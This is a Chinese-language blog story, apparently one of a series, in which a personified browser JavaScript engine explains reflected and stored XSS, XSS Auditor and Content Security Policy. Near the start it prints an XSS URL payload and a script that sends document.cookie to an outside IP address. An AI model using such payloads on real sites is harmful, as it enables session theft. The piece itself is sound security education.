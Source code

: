 ## 神秘URL

我叫小风，是Windows帝国一个普通的上班族。上一回说到[因为一个跨域请求，我差点丢了饭碗](https://mp.weixin.qq.com/s/K15IVpe57STOf0SxyLEg9A)，好在有惊无险，我的职场历险记还在继续。

“叮叮叮叮~~~~”，闹钟又把我给吵醒了，我一看时间竟然已经这么晚了。

我赶紧起身，准备要去上班，好不容易在那家浏览器公司谋了个差事，可不敢迟到。

今天又是普通的一天，很快就到了深夜，上网业务少了，我和小雪妹子一合计，伙同负责网络连接的老白和负责存储的小黑，一起打起了麻将。


![](https://imgkr.cn-bj.ufileos.com/756acfb4-00d5-4591-8b7b-deba93308152.png)

一连打了几圈，正在兴头上，公司的美女前台跑了过来，“你们几个别玩了，上网业务来了。老白，这是URL，给”

我瞅了一眼这URL，看上去有些奇怪，不仅比之前见过的都长，貌似还夹杂着一些JavaScript代码。

> http://zone.oo.com/user/info.jsp?desc="/>\<script>$("body").append("\<img src='http://192.168.59.129?c="+escape(document.cookie) + "'>")\</script>\<!-- 

“老白，这URL长的好奇怪？会不会有什么问题？”，我向老白问到。

“嗨，你小子就是新来的，我见过的URL比你执行过的JS代码都多，什么奇形怪状的没见过，大惊小怪”，老白不屑一顾。

“大家把牌盖着，都别看，忙完了回来咱接着打”，老白继续说到。

于是大家各归各位，准备处理这一单上网业务。


很快，老白取回了这个URL背后的网页，交给了小雪来解析渲染。

小雪做了一半，叫住了我：“风哥，又有 **\<script>** 标签了，该你上了”。

我接过小雪手里的网页，猛地一看，**这不是刚刚URL里面出现的代码吗？怎么又跑到网页里面去了？**

心里突然涌上一种不好的预感，正在困惑之中，老白催我了，“小雪小风你俩赶紧的，网页加载半天了还没显示出来！”

但愿是我多想了，我开始执行这 **\<script>** 标签中的代码了。
```javascript
<script>
  $("body").append("\<img src='http://192.168.59.129:10086?c=" 
  + escape(document.cookie) + "'>")
</script>
```

我要创建一个新的 **\<img>** 标签，添加到网页正文中去。看了一下这个图片的来源，是一个新的地址，再一看，还要把当前网站的**Cookie**带着作为参数才能拿到这个图片。

我来到小黑的存储仓库，准备向他索要Cookie。

当我表明来意以后，小黑也显得有些谨慎，“**按照公司规定，一个网站的Cookie是不能随便给别的网站访问的**”

“这我当然知道，不过现在是这个网站的JS代码主动把Cookie取出来发给别人，这不算违反公司规定吧”，我解释到。

小黑邹着眉头想了一想，也就同意了。

我拿到cookie后，构建了一个完整的 **\<img>** 标签添加到了网页的DOM树中，之后还给小雪继续渲染。

网页很快渲染完成展示出来了，忙完之后我们继续开始未完的牌局。

过了一会儿，人类终于关掉了浏览器，我们也可以下班了······


## XSS跨站脚本攻击

第二天一早，我刚到公司，小雪妹子就转过头告诉我：“风哥，主管让你去趟他的办公室，他好像不太高兴，你当心点”

“你知道是什么事情吗？”

“我也不太清楚，只听说你执行了什么错误的JavaScript代码”

我心里一紧，感觉大事不妙，难道是昨晚那奇怪的代码有什么问题？


来到主管的办公室，见里面坐了一个年轻小哥。我轻轻的敲了敲门问到：“主管，您找我有事？”

主管见我到来，指着旁边的沙发示意我也坐下。

“你闯祸了知道吗？”，领导扔给我一页文件。

![](https://imgkr.cn-bj.ufileos.com/b7195eb1-8086-4b6a-84d1-26c755d5baff.png)

我拿起文件一看，上面赫然写着我昨晚执行那段奇怪的JavaScript代码。

“主管，我不太清楚，这是有什么问题吗？”，我小声问道。

主管指着旁边那个年轻小哥说到：“这位是OO空间网站的负责人，让他告诉你吧”

小哥点了点头说到：“是这样的，我们发现有人盗用我们网站的Cookie，免登录直接访问了进去，经过日志排查，发现是你们这里把Cookie泄露的，所以想过来了解一下情况”

![](https://imgkr.cn-bj.ufileos.com/4c0cb262-bfd1-411a-9677-a7724aadcde3.png)

“这段代码是你们网站自己的，我只是完成我的工作执行了它而已啊”，我开始有些紧张了。

“可是我们网站根本没有这段代码，也不可能把Cookie就这样发给别人的”，这小哥也争辩道。

办公室的气氛变得有些紧张，现场陷入了短暂的安静。

就在此时，年轻小哥出去接了一个电话。

片刻之后，小哥再次回到办公室，脸色突然和缓了许多，笑着说到：“不好意思，刚刚接到同事的电话说，他们已经排查出了问题，**是我们网站对URL中的参数没有检查，直接写入了网页中，被人利用传入了JS代码**。跟你们应该没有关系，实在是抱歉”

![](https://imgkr.cn-bj.ufileos.com/ffb56871-0742-46aa-9eb5-f8360aa544eb.png)

听完，我松了一口气，差点就要背锅了。

回到工位，我把事情的经过告诉了大伙。

小雪听后吐槽：“那些奇奇怪怪的URL就别乱点嘛，真是给我们添乱”

“你看你看，我昨晚上就觉得有些不对劲。这坏蛋手段挺高啊，能想出这么个损招，咱们给这种攻击方式取个名字吧”，小黑说到，“叫`Cross Site Script`攻击怎么样？”

老白点了点头，“跨站脚本攻击，嗯，总结很到位，那就简称CSS吧！”

小雪一听转过头来，“你叫CSS，那我的层叠样式表岂不是要改名让贤？”

老白挠了挠头，有些不好意思，“哦，忘了这一茬。那改一下，叫**XSS**，这总可以了吧？”

我们都点了点头，就这么定了。


## XSS Auditor

虽然这一次的事情责任不在我们浏览器，不过我一直还是有些后怕。

这天晚上，我又仔细回忆了那天整个事情的经过


![](https://imgkr.cn-bj.ufileos.com/221b74b4-6f6f-4f9e-ac3c-8ec09b63a540.png)


突然脑子里灵光一闪，发现一个重要的特点

![](https://imgkr.cn-bj.ufileos.com/f4eb49a7-5c5e-4a92-8a74-4e9968d8723d.png)

**既然JS代码同时出现在了请求的URL中和响应的网页中，何不利用这个特点来进行针对性拦截呢？**

越想越难入睡，连夜写起了方案。

第二天，来到公司，打算将昨晚的方案汇报给主管，挣一下表现。

我再次来到主管办公室，主管见是我，招呼道：“小风啊，来来来，刚好找你有点事”

我快步走了进去，只见主管又拿出了一叠文件放在我的面前，随后说到：“这是我搞到的绝密资料，是咱们隔壁Chrome浏览器公司的一个叫`XSS Auditor`的技术，据说可以阻止类似上次的攻击事件，你抽空研究一下”

![](https://imgkr.cn-bj.ufileos.com/fef560b9-6c2b-445b-9a36-55eecdbb90a9.png)

我脑子一懵，赶紧快速浏览了这份文件，没想到居然跟我的方案撞到一块儿了，而且比我想的还全面细致。我只好悄悄收起了原来准备汇报的方案······

几天后，主管宣布我们也要用上这种技术，增强咱们浏览器的安全性。



## 存储型XSS

“听说了吗？隔壁Chrome浏览器公司也发生XSS攻击了”，一天中午，老白神神秘秘的说到。

我一听来了精神，“不是有XSS Auditor吗，怎么还会发生这种事？”

“这回那些坏蛋换招了，他们没有把JS代码放在URL中，XSS Auditor自然是发觉不了了”

“不在URL中，那放哪里了？”

“听说是存在了数据库里，访问网页的时候从数据库里读取出来后，直接给填充到了网页上了，喏，就像这样”，老白说完画了一个图。

![](https://imgkr.cn-bj.ufileos.com/fa6ac724-7882-49da-97e2-371bbd13785a.png)

“对了，他们借此机会把XSS攻击分成了两种，以前那种直接通过URL把JS代码注入进网页的方式叫做`反射型XSS`，这一次这种叫`存储型XSS`”，老白继续说到。

我看了老白的图一下就明白了，“这一招也太狠了，存进了网站的数据库里，所有人访问页面都得中招”

“可不是咋的，OO空间网站那边已经乱成一锅粥了，正在内部整顿，对所有的输入进行全面的检查过滤，防止JS代码混进去。”

“这种事情还是得他们网站自己做好检查，咱们浏览器也帮不上什么忙”，一旁的小黑也插了一嘴。

大家七嘴八舌聊了几句就散了。

![](https://imgkr.cn-bj.ufileos.com/45a6daab-b117-43a4-a0a4-2a8dce7f55cd.png)


虽然小黑说的也没错，不过上次的方案撞车，我一直不太服气，这一次机会来了，我要是能再想出一套方案，能把这次的新型XSS一并解决的话，那就扬眉吐气了。

之后一段时间，一有闲暇我就开始思考这个问题，却一直没什么进展。

## CSP

这一天中午，没什么工作要忙，我又想起了这个问题，小雪他们又组织打麻将，我没有心思便拒绝了。

老白闻讯过来，说到：“小风，你还在想那个问题啊，你这两天没看新闻吗，W3C标准化组织推出了一个新技术，已经把这个问题解决了！”

老白的话如当头一棒，“什么技术？怎么解决的？”

![](https://imgkr.cn-bj.ufileos.com/5ca27a53-8d01-4d2b-980b-ecce36dad983.png)

“你看你，天天关起门来研究，都不知道外面的世界变化有多快。你去了解一下，好像叫什么`Content Security Policy`，哦对，就是这个，简称叫`CSP`”

我赶紧去打听了这个叫CSP的新技术，看完直拍大腿，我怎么就没想到。

CSP规定了一个叫`Content-Security-Policy`的信息，网站通过这个信息告诉浏览器哪些外部资源可以加载和执行。这个信息可以用HTTP头的形式出现，像这样：

![](https://imgkr.cn-bj.ufileos.com/ef1aadb8-3d65-4314-98ee-39991d158752.png)

也可以通过 **\<meta>** 标签出现，像这样：
```html
<meta http-equiv="Content-Security-Policy" 
      content="script-src 'self'; object-src 'none'; style-src cdn.example.org third-party.org; child-src https:">
```

至于里面的内容，则是将所有可能出现外部资源加载的地方进行了指示，浏览器拿到它就能知道能去哪些地址加载对应的资源，如果资源所在的地址不在名单之内就拒绝加载：
```
- script-src：外部脚本
- style-src：样式表
- img-src：图像
- media-src：媒体文件（音频和视频）
- font-src：字体文件
- object-src：插件（比如 Flash）
- child-src：框架
- frame-ancestors：嵌入的外部资源
- connect-src：HTTP 连接（通过 XHR、WebSockets、EventSource等）
- worker-src：worker脚本
- manifest-src：manifest 文件
```

比如 img-src的内容是`self`，那所有的 **\<img>** 标签的src属性必须是在当前网站才行，如果加载其他地址的图片就会拒绝。

不仅如此，还提供了一个叫`report-uri`的字段，字段内容是一个服务器地址，浏览器发现有不符合规定的资源加载后，除了拒绝加载还可以把这一情况报告给这个地址，网站就能及时知道预警了。

真是完美的解决方案！没想到，竟然这么多竞争对手都已经用上了这项技术

![](https://imgkr.cn-bj.ufileos.com/739a08a9-aa28-49b9-8d80-4bb85525b6c6.png)

当天下午，我就拉着老白去到领导办公室，说服他将这项技术在咱们公司也用起来。

烦人的XSS攻击总算是缓解了不少，我们也难得度过了一段时间的太平日子。


**未完待续······**

## 彩蛋

> 太平的日子没有太持久，那件事之后半个月，我又因为执行一段JS代码霸占CPU太久，被帝国安全警卫队勒令我们浏览器公司强制关闭。
>
> 执行JavaScript这份工是越来越不好打了。
>
> *预知后事如何，请关注后续精彩······*


## 往期热门回顾

[因为一个跨域请求，我差点丢了饭碗](https://mp.weixin.qq.com/s/K15IVpe57STOf0SxyLEg9A)

[就为了一个原子操作，其他CPU核心都罢工了](https://mp.weixin.qq.com/s/jx0EajGXGrM3fR14P9Bm7Q)

[完了！CPU一味求快出事儿了！](https://mp.weixin.qq.com/s/jx0EajGXGrM3fR14P9Bm7Q)

[可怕！CPU竟成了黑客的帮凶！](https://mp.weixin.qq.com/s/XEDCCQntIRghWhfigciWSA)

[哈希表哪家强？几大编程语言吵起来了！](https://mp.weixin.qq.com/s/erSqe-nItuQPxW4MT3LEVg)

[震撼！全网第一张源码分析全景图揭秘Nginx](https://mp.weixin.qq.com/s/mhsIoabAVOyTrBXKGZjD_g)

[一个整数＋1引发的灾难](https://mp.weixin.qq.com/s/hFWSItFYIzWLr_RFne2lBA)

[一网打尽！每个程序猿都该了解的黑客技术大汇总](https://mp.weixin.qq.com/s/KZ3-PeYWBBos40spbqiTRA)
 
[DDoS攻击：无限战争](https://mp.weixin.qq.com/s/CYoaJfV9btYBFWD7ZGLVng)
  
[一个Java对象的回忆录：垃圾回收](https://mp.weixin.qq.com/s/QWuhgrT7LEqq06NxdvfaeA)
  
[谁动了你的HTTPS流量？](https://mp.weixin.qq.com/s/OZ6ZOoGULUgRRaL_qw9bFA)
  
[路由器里的广告秘密](https://mp.weixin.qq.com/s/1_pDD-V4Qa5k22NOoruNMg)
  
[一个HTTP数据包的奇幻之旅](https://mp.weixin.qq.com/s/axPUi-8kHtFQTwgRtyZtGQ)
  
[我是一个流氓软件线程](https://mp.weixin.qq.com/s/YDEwVD9MudthkTTCshJF3w)

![](https://imgkr.cn-bj.ufileos.com/62b181b0-cb63-47a0-b836-131de3a562c7.png)


![](https://imgkr.cn-bj.ufileos.com/06d25f4e-bd38-404b-a901-173737bb7ccf.png)
